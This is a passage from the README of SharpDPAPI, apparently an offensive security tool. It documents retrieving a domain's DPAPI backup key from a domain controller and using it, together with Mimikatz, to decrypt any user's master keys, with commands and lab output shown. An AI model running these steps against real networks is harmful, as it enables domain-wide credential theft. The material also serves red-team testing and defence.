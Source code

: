 
    [*] Action: Describe DPAPI blob

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 314
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


#### backupkey

The **backupkey** command will retrieve the domain DPAPI backup key from a domain controller using the **LsaRetrievePrivateData** API approach [from Mimikatz](https://github.com/gentilkiwi/mimikatz/blob/2fd09bbef0754317cd97c01dbbf49698ae23d9d2/mimikatz/modules/kuhl_m_lsadump.c#L1882-L1927). This private key can then be used to decrypt master key blobs for any user on the domain. And even better, the key never changes ;)

Domain admin (or equivalent) rights are needed to retrieve the key from a remote domain controller.

The `/nowrap` flag will prevent wrapping the base64 key on display.

This base64 key blob can be decoded to a binary .pvk file that can then be used with Mimikatz' **dpapi::masterkey /in:MASTERKEY /pvk:backupkey.pvk** module, or used in blob/file /pvk:X form with the **masterkeys**, **credentials**, or **vault** SharpDPAPI commands.

By default, SharpDPAPI will try to determine the current domain controller via the **DsGetDcName** API call. A server can be specified with `/server:COMPUTER.domain.com`. If you want the key saved to disk instead of output as a base64 blob, use `/file:key.pvk`.

Retrieve the DPAPI backup key for the current domain controller:

    C:\Temp>SharpDPAPI.exe backupkey

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Retrieve domain DPAPI backup key


    [*] Using current domain controller  : PRIMARY.testlab.local
    [*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Key :
              HvG1sAAAAAABAAAAAAAAAAAAAACUBAAABwIAAACkAABSU0EyAAgAAA...(snip)...


Retrieve the DPAPI backup key for the specified DC, outputting the backup key to a file:
